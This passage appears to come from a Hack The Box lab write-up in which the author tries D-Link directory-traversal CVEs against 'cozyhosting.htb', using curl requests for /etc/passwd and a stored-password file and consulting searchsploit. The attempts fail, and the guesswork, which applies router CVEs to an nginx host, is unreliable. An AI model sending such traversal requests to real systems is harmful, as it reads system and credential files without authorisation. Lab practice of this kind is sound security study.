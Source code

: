 ```
GET /uri//etc/passwd
```

Maybe it worked since it is not returning an error page? There is more to do to see the contents. Let's research the CVE-2018-10824 vulnerability. It appears the administrative password is stored in plaintext in the `/tmp/csman/0` file.

```
curl -X GET "http://cozyhosting.htb/uri//tmp/csman/0"
```

No luck there, further research is needed.

I found a GitHub for a `.yaml` file relating to CVE-2018-10822. In the code, I noticed the reference to exploit-db exploit #45678.

Using searchsploit we find an exploit to try:

```
-[Wed Feb 28-17:19:34]-[table@parrot]-
-[~]$ searchsploit 45678
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
D-Link Routers - Directory Traversal                                                        | hardware/webapps/45678.md
-------------------------------------------------------------------------------------------- ---------------------------------
-------------------------------------------------------------------------------------------- ---------------------------------
 Shellcode Title                                                                            |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
Linux/x64 - Bind_tcp (0.0.0.0:4444) + Password (12345678) + Shell (/bin/sh) Shellcode (142  | linux/49472.c
-------------------------------------------------------------------------------------------- ---------------------------------
Papers: No Results

```

From the research, it is interesting to note that the vulnerability can be used to retrieve administrative passwords using the other disclosed vulnerability - CVE-2018-10824.

This vulnerability was reported previously by Patryk Bogdan in CVE-2017-6190 but he reported it is fixed in certain releases but unfortunately, it is still present in even newer releases. The vulnerability is also present in other D-Link routers and can be exploited not only (as the original author stated) by double dot but also using double slash.

Let's try to `curl` the IP address file location of `passwd`:

```
-[Wed Feb 28-17:23:50]-[table@parrot]-
-[~]$ curl http://10.10.11.230/uir//etc/passwd
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>

```
